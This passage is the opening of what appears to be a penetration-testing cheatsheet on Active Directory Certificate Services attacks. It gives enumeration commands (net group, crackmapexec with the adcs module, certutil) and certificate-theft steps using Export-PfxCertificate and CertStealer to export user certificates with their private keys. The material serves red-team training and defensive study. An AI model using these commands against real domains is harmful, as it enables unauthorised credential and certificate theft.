 # Active Directory Certificate Services

It is a cheatsheet about the different AD-CS attacks presented by SpecterOps. All the references and resources for the commands and techniques will be listed at the end of the page, for acknowledgments and explains. 
This was originally a private page that I made public, so it is possible that I have copy/paste some parts from other places and I forgot to credit or modify. If it the case, you can contact me on my Twitter [**@BlWasp_**](https://twitter.com/BlWasp_).

I will try to put as many links as possible at the end of the page to direct to more complete resources.
Many commands are more explained [here](https://www.thehacker.recipes/ad/movement/ad-cs), where I have participate for AD-CS.

## Is there a CA ?

Find the **Cert Publishers** group :

* From UNIX-like systems: `rpc net group members "Cert Publishers" -U "DOMAIN"/"User"%"Password" -S "DomainController"`
* From Windows systems: `net group "Cert Publishers" /domain`

Find the PKI : `crackmapexec ldap 'domaincontroller' -d 'domain' -u 'user' -p 'password' -M adcs`

Find the CA from Windows : `certutil –config – -ping`

Enumerate the HTTP ports on the servers, enumerate the shares to find **CertEnroll**, etc

## Certificate Theft

### Export user certificates with Crypto APIs - THEFT1

With a session on a machine as a user, it is possible to export his certificate from the Windows Certificate Manager. With an interactive session and if **the private keys are exportable** :

`certmgr.msc -> All Tasks → Export...` to export a password protected .pfx file.

With PowerShell :

```powershell
$mypwd = ConvertTo-SecureString -String "Password123!" -Force -AsPlainText
Export-PfxCertificate -Cert cert:\currentuser\my\<CERT_THUMBPRINT> -FilePath ./export.pfx -Password $mypwd

#Or with CertStealer
#List all certs
CertStealer.exe --list

#Export a cert in pfx
CertStealer.exe --export pfx <CERT_THUMBPRINT>
```

If the CAPI or CNG APIs are configured to block the private key export, they can be patched with Mimikatz :
